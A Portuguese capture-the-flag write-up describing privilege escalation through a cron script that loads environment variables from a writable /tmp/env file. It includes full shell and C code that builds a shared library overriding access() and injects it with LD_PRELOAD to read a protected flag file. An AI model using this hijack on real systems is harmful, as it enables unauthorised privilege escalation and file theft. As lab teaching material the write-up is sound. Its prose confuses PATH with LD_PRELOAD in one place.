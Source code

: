 # CTF4

Seguindo a recomendação inicial do guião do CTF:

![inicio](images/inicio.PNG)

![inicio](images/admin_note.PNG)

![inicio](images/ls_la.PNG)

![inicio](images/reader.PNG)

![inicio](images/cron.PNG)

reparamos que quando o **crond** é executado, este executa `my_script.sh` e o output é guardado em `/tmp/last_log`.

Verifica-se que `/tmp` e `/run ` são os únicos diretórios onde nós temos permissões de escrita.
No diretório `/tmp` existe um ficheiro `env` que é atualizado todos os minutos, com permissões de flag_reader, através do **crond**.

O conteúdo de `my_script.sh` é o seguinte:

![inicio](images/my_script.PNG)


Podemos observar que, se o ficheiro `/tmp/env` existir, vai ser executado o seu conteúdo como um comando shell usando **xargs**. A seguir, serão impressas as variáveis de ambiente através do **printenv**. Assim, podemos alterar a variável de ambiente PATH (para apontar para o diretório com um printenv controlado por nós):

```note
export LD_PRELOAD=./d.so
```

Criando o diretório `d.so`, podemos criar e compilar um ficheiro c com a função access (chamada em main.c) de forma a passar a flag para o ficheiro .txt criado por nós:

```c
echo '#include <stdio.h>' > d.c
echo '#include <stdlib.h>' >> d.c
echo '#include <unistd.h>' >> d.c
echo 'int access(const char *pathname, int mode){' >> d.c
echo '    system("/bin/cat /flags/flag.txt > /tmp/myflag.txt");' >> d.c
echo '    return 0;' >> d.c
echo '}' >> d.c

gcc -fPIC -g -c d.c
gcc -shared -o d.so d.o -lc

touch myflag.txt
chmod 777 myflag.txt
echo "LD_PRELOAD=/tmp/d.so" > env
```



Finalmente, esperamos uma nova execução de `my_script.sh` e verifica-se que o `last_log` contém a flag:

![inicio](images/flag_found.png)

